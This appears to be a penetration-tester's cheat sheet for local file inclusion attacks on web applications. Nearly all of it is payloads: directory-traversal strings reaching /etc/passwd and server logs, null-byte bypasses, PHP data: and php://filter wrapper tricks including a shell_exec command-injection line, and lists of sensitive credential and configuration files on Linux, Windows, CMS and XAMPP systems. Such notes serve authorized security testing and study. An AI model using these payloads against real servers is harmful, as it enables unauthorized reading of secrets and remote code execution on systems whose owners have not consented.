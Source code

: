# File inclusion

{% code overflow="wrap" %}
```
page=../../../../../../../../../var/log/apache2/access.log
page=../../../etc/passwd%00
page=../../../../../../etc/passwd?
page=../../../../../../etc/passwd%00jpg     
```
{% endcode %}

## Wrappers

Test with:

```
file=data:text/plain,helloworld
```

* if returns plaintext 'helloworld' then we can inject code

```php
file=data:text/plain,<?php echo shell_exec("dir") ?>
```

{% code overflow="wrap" %}
```php
page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```
{% endcode %}



## Linux files

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
/var/log/messages
/var/log/cron.log
/var/log/secure
/var/log/auth.log
```

### CMS Config Files

```
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
```

## Windows Files

```
C:/Windows/System32/drivers/etc/hosts
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/Panther/Unattend.txt
C:/Unattend.xml
C:/Autounattend.xml
C:/Windows/system32/sysprep
C:/inetpub/wwwroot
C:/inetpub/wwwroot/web.config
C:/inetpub/logs/logfiles
```

### XAMPP Files

```
C:/xampp/apache/conf/httpd.conf
C:/xampp/security/webdav.htpasswd
C:/xampp/apache/logs/access.log
C:/xampp/apache/logs/error.log
C:/xampp/tomcat/conf/tomcat-users.xml
C:/xampp/tomcat/conf/web.xml
C:/xampp/webalizer/webalizer.conf
C:/xampp/webdav/webdav.txt
C:/xampp/apache/bin/php.ini
C:/xampp/apache/conf/httpd.conf
```





